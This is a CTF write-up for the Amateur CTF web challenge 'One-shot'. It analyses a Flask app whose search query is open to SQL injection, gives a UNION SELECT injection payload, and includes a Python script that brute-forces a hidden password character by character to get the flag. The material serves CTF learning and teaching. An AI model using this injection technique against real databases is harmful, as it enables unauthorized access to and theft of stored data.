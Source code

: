 ```yaml
---
layout: post
title: Amateur CTF | One-shot
date: 2024-04-12
tags: ['Amateur CTF']
---
```

# Web/One-shot

## Challenge Description

my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge! http://one-shot.amt.rs

[app.py](./assets/app.py) | [Dockerfile](./assets/Dockerfile)

## Challenge Overview

The challenge was like a guessing game. 

![new_session](./assets/images/new_session.png)

First we are given this page with the `New Session` button. Clicking it takes us to another page with an input box mentioning something about fragments scattered.

![like_page](./assets/images/like_page.png)

First let's try sending some random input like `a` and then see the response.

![guess_page](./assets/images/guess.png)

We get a response back showing us a result and an input box to make our guess. Giving a random answer to this input box returns the message `You failed. Go back` sending us back to the new session page.

Now let's start analyzing the `app.py` file.

* new_session()
    * Generates a random `id` using `os.urandom(8).hex()`.
    * Creates a new table with the name `table_{id}` with two columns -- `password`, `searched`
    * Inserts one value into the created table setting the `password` to a random hex value and the `searched` to `0`.
    * The response returns the form for the search page

* search()
    * This is the fragments scattered... page 
    * Uses a regular expression to match whether we have entered a valid `id`
    * Checks the value of the `searched` column in the table with the `id` created using the `new_session()`. If this value is not `0` then it returns the message `"you've used your shot."`. If this value is `0` then in the next command it updates the table and sets the `searched` value to `1`, indicating that we have already make our search.
    * Next, the function takes the input we give in the input box as the `query` parameter tries to see if it matches the pattern of the password using the `LIKE` command. It executes the command `SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'`. Thus whatever input we provide goes inside `%{query}%`. 
    * It returns the result of the query in its response along with the form to make the guess. But it only prints the first letter of the passwords it returns thus we cannot know the correct password.

* guess()
    * This is the page asking us to make the guess
    * Simply checks whether we have provided the correct `password` for the **given table id**.
    * If the password guessed is correct then it returns the flag
    * Deletes the table after the check

## Exploit

So in order to solve it, we could do a character by character bruteforce. We know the password is a `32 characters` long. So if we make a query like `a_______________________________`, it checks if the first letter is `a` and the rest of the letter can be anything. If it is correct then it returns the password in the results or else it returns an empty result. We could keep doing this again and again for every letter and get the exact password.

But the issue here is that we can only make one query for a password and then we need to generate a new session guess a new password. In order to bypass this, we need to do a SQL Injection attack. 

SQL Injection query: `%' UNION SELECT password from table_{id_to_guess} WHERE password LIKE '{password}'--`

This injeciton allows us to check the password of a different table id using the query of another table.

The exploit is simple.

* Create a new session which is our `id_to_guess`
* Create a new session which is our `test_id`
* Send the sql injection from the `test_id` and search the password for `id_to_guess`
* After finally getting the password, submit this `password` to the `id_to_guess` and get the flag

### Python exploit

```py
import requests
from tqdm import tqdm

def new_session():
    url = 'http://one-shot.amt.rs/new_session'
    response = requests.post(url).text
    table_id = response.splitlines()
    table_id = table_id[3]
    table_id = table_id.split('"')
    table_id = table_id[5]
    return table_id

def search(table_id, query):
    url = 'http://one-shot.amt.rs/search'
    send_data = {"id": table_id, "query": query}
    response = requests.post(url, data=send_data)
    results = response.text.split('<li>')
    if len(results) == 3:
        return True
    else:
        return False
    
def guess(table_id, password):
    url = 'http://one-shot.amt.rs/guess'
    send_data = {"id": table_id, "password": password}
    response = requests.post(url, data=send_data)
    if 'go back' not in response.text.lower():
        print(response.text)

if __name__ == "__main__":
    id_to_guess = new_session()

    password = '_' * 32
    correct = ''
    for i in tqdm(range(32)):
        password = correct + '_' * (32 - i)
        for letter in '1234567890abcdef':
            password = correct + letter + '_' * (32 - i - 1)
            test_id = new_session()
            if search(test_id, f"%' UNION SELECT password from table_{id_to_guess} WHERE password LIKE '{password}'--"):
                correct += letter
                guess(test_id, "guess")
                break
    print(f"{correct=}")
    guess(id_to_guess, correct)
```

![flag](./assets/images/flag.png)